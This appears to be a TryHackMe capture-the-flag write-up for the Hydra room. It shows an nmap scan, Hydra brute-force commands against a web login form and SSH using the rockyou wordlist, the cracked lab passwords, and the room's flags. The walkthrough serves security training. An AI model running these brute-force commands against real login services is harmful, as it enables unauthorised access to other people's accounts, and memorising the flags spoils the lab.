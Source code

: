 # Hydra Challenge Writeup (TryHackMe)
#pentest/tryhackme

The first thing we need to do is connect to the TryHackMe VPN. Here's how:

1. Sign in to your TryHackMe account and go to the 'Access' page.
2. Download your VPN configuration file.
3. Install a VPN client like OpenVPN.
4. Import the configuration file into the VPN client.
5. Connect to the VPN using the imported configuration.

Once connected, you can start accessing the TryHackMe labs and exercises.

# Nmap Scan
Next, we'll perform an Nmap scan by typing the following command in the shell:

```shell
$ sudo nmap -sV -O <IP>
```

The scan results show that port 80 (HTTP) and port 22 (SSH) are open.
When we enter the IP address in our browser, it redirects us to http://<IP>/login

# Finding the Web Password

For this, we are using brute force.

I preferred to use Hydra, but you can also do it with other brute force tools (Burp Suite, etc.). Here's the Hydra command I used:
```shell
$ hydra -l molly -P /usr/share/wordlists/rockyou.txt <IP> http-post-form "/login:username=^USER^&password=^PASS^:F=Your username or password is incorrect." -V
```
The -l parameter in Hydra specifies the username or the path to a file containing a list of usernames for brute force attacks. 
The -P parameter specifies the password or the path to a file containing a list of passwords. 
After that, you need to specify the IP address. To determine whether the request is GET or POST, you can inspect the page using the browser's developer tools (Inspect Element) or learn this by using Burp Suite.

Below is the result of the scan:
```shell
[DATA] attacking http-post-form://10.10.125.70:80/login:username=^USER^&password=^PASS^:incorrect
[80][http-post-form] host: 10.10.125.70   login: molly   password: sunshine
[STATUS] attack finished for 10.10.125.70 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

The password was found to be 'sunshine' and the web login page is being accessed.
The web login page was accessed, and the following code was found: THM{2673a7dd116de68e85c48ec0b1f2612e}

# Finding the SSH password

```shell
$ hydra -l molly -P /usr/share/wordlists/rockyou.txt -t 4 ssh://<IP>
```
Below is the result of the scan: 
```shell
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks.
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://10.10.125.70:22/
[22][ssh] host: 10.10.125.70   login: molly   password: butterfly
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
```

Afterwards, we need to log in via SSH using the command below:
```shell    
$ ssh molly@10.10.125.70
```

The login is successful. Now, we need to find the location of flag2.txt and read it using the cat command.

```shell
molly@ip-10-10-125-70:~$ ls
flag2.txt

molly@ip-10-10-125-70:~$ cat flag2.txt
THM{c8eeb0468febbadea859baeb33b2541b}
```

You can find the room here: https://tryhackme.com/r/room/hydra

I appreciate you taking the time to read my writeup!!